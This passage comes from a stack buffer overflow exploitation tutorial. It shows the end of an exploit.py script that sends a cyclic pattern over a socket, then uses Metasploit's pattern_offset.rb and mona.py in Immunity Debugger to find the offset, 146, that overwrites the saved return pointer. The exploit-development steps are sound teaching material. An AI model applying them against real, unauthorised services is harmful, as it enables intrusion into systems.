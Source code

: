 ```{.python .numberLines}
  "q3Aq4Aq5Aq6Aq7Aq8Aq9Ar0Ar1Ar2Ar3Ar4Ar5Ar6Ar7Ar8Ar9As0As1As2As3"
  "As4As5As6As7As8As9At0At1At2At3At4At5At6At7At8At9Au0Au1Au2Au3Au"
  "4Au5Au6Au7Au8Au9Av0Av1Av2Av3Av4Av5Av6Av7Av8Av9Aw0Aw1Aw2Aw3Aw4A"
  "w5Aw6Aw7Aw8Aw9Ax0Ax1Ax2Ax3Ax4Ax5Ax6Ax7Ax8Ax9Ay0Ay1Ay2Ay3Ay4Ay5"
  "Ay6Ay7Ay8Ay9Az0Az1Az2Az3Az4Az5Az6Az7Az8Az9Ba0Ba1Ba2Ba3Ba4Ba5Ba"
  "6Ba7Ba8Ba9Bb0Bb1Bb2Bb3Bb4Bb5Bb6Bb7Bb8Bb9Bc0Bc1Bc2Bc3Bc4Bc5Bc6B"
  "c7Bc8Bc9Bd0Bd1Bd2Bd3Bd4Bd5Bd6Bd7Bd8Bd9Be0Be1Be2Be3Be4Be5Be6Be7"
  "Be8Be9Bf0Bf1Bf2Bf3Bf4Bf5Bf6Bf7Bf8Bf9Bg0Bg1Bg2Bg3Bg4Bg5Bg6Bg7Bg"
  "8Bg9Bh0Bh1Bh2Bh3Bh4Bh5Bh6Bh7Bh8Bh9Bi0B").encode()
buf += b"\n"

s.send(buf)
```

---

\newpage

And sending 'er off:

```
% ./exploit.py
```

We get a somewhat different crash this time. Instead of `0x41414141` (`"AAAA"`)
being in `EIP`, we have `0x39654138` (`"9eA8"`).

![Different crashy crashy. `EIP` = `0x39654138`
("9eA8")](dostackbufferoverflowgood_images/immdbg_0x39654138.png)

\newpage

We have several options for finding out how far in our cyclic pattern the
sequence `"9eA8"` appears.

We can run Metasploit's `pattern_offset.rb` with an argument of either "9eA8"
or "39654138":

```
% ~/opt/metasploit-framework/tools/exploit/pattern_offset.rb -q 39654138
[*] Exact match at offset 146
```

This tells us that the four characters that overwrite the Saved Return Pointer
and end up in `EIP` are at offset 146 (i.e. from the 147th character onwards).

Alternatively, `mona.py` gives us a function called `"findmsp"` that will
search the memory of our process for all instances of the cyclic pattern and
will give us a bunch of info on each occurrence, will tell us if any registers
(e.g. `EIP`) contain a subset of the pattern, if any registers point to
somewhere in a copy of the pattern, and much much more.

`mona.py` commands are run via the command input at the bottom of Immunity
Debugger and are prefixed with `"!mona"`.

![`mona.py`'s `findmsp`](dostackbufferoverflowgood_images/immdbg_findmsp.png)
